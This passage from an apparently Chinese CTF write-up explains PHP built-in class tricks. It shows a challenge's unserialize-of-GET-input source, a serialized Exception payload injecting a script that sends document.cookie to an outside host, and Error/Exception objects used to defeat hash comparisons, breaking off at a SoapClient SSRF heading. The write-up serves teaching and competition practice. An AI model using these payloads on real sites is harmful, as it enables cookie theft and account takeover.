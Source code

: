 得到源码

```bash
<?php
$a = $_GET['yds_is_so_beautiful'];
echo unserialize($a);
```

只给了一个传参地方，根据题目名以及条件，这个时候就可以利用内置类打 Xss 了

```bash
<?php
$a=new Exception('<script>window.open("http://9f5ea2b6-a58d-4d22-82c7-eeb923f3d9a6.node5.buuoj.cn:81/"+document.cookie)</script>');
//一般 Xss 题目 flag 在 Cookie 里
echo urlencode(serialize($a));
```

[![](assets/1708675446-b25fb88da3ec49df3d77d9ead02a38ea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240222121105-660e344e-d138-1.png)

## 绕过哈希比较

### Error 类

-   php7.0.0

### Exception 类

-   php5

这里我两个一起说了，原理都是一样的

示例：

```bash
<?php
$a = new Error("payload",1);$b = new Error("payload",2);
echo $a;
echo $b;
```

[![](assets/1708675446-f81c8160fef9ddecd62e4ae2f0f720da.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240222121111-699eb0ac-d138-1.png)

可以看到，输出结果是一样的，因此可以绕过哈希

# SoapClient：SSRF

